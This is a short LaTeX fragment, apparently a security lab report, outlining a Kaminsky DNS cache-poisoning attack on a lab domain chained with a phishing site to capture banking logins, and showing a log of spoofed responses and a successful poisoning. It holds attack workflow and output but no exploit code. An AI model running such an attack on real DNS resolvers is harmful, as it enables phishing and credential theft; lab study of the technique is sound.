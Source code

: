 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Attack Workflow}

The complete attack follows this sequence:

\begin{enumerate}
    \item \textbf{Environment Setup}: Configure vulnerable DNS server and phishing site
    \item \textbf{DNS Poisoning}: Execute Kaminsky attack to poison DNS cache
    \item \textbf{Verification}: Confirm successful cache poisoning
    \item \textbf{Victim Simulation}: User attempts to access legitimate banking site
    \item \textbf{Credential Capture}: Phishing site captures login credentials
    \item \textbf{Data Exfiltration}: Stolen credentials logged and stored
\end{enumerate}

\subsection{Attack Execution Results}

\subsubsection{DNS Cache Poisoning Success}

The attack successfully poisoned the DNS cache:

\begin{lstlisting}[caption=DNS Poisoning Success Log]
[*] --- Attempt #1 of 100 ---
[*] Using random subdomain: 73263.my-lab-bank.com
[*] Sending 10 initial queries...
[QUERY] Sent 1/10: txid=10167, src_port=40893

[*] Flooding with 1000 spoofed responses (random txid 1-50)...
[SPOOF] Sent 1/250: txid=23
[SPOOF] Sent 1/250: txid=7
[SPOOF] Sent 1/250: txid=45

[CAPTURE] *** SPOOFED RESPONSE DETECTED ***
[POISON] Main domain cached: my-lab-bank.com -> 10.0.0.10

[*] Verifying attack...
[SUCCESS] DNS cache poisoned! my-lab-bank.com -> 10.0.0.10
\end{lstlisting}

\subsubsection{Credential Capture Results}
\end{document}
